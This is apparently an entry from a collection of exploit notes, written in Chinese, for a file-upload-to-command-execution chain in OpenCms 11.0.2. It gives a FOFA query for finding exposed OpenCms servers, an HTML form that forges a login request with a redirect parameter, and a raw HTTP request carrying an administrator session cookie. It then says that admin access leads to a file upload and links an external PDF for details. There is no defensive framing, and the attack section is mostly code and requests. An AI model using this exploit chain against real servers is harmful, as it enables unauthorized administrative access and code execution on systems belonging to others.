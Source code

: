 # OpenCMS 11.0.2 文件上传到命令执行


FOFA：

```
app="OpenCms/"
```
文件上传需要获取管理员的JSESSIONID或者账号密码。

SSRF Exploit.html：


```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://vulnerablehost.com/system/login" method="POST">
      <input type="hidden" name="ocUname" value="anything" />
      <input type="hidden" name="ocPword" value="anything" />
      <input type="hidden" name="loginRedirect" value="https://google.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

重定向：


```
GET /system/login?loginRedirect=https://google.com HTTP/1.1
Host: vulnerablehost.com
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://vulnerablehost.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://vulnerablehost.com/system/login
Accept-Encoding: gzip, deflate
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=Valid JSESSIONID authenticated cookie
```

获取到管理员权限后进行上传文件。

详情可参考：https://dl.packetstormsecurity.net/2103-exploits/opencms1102-exec.pdf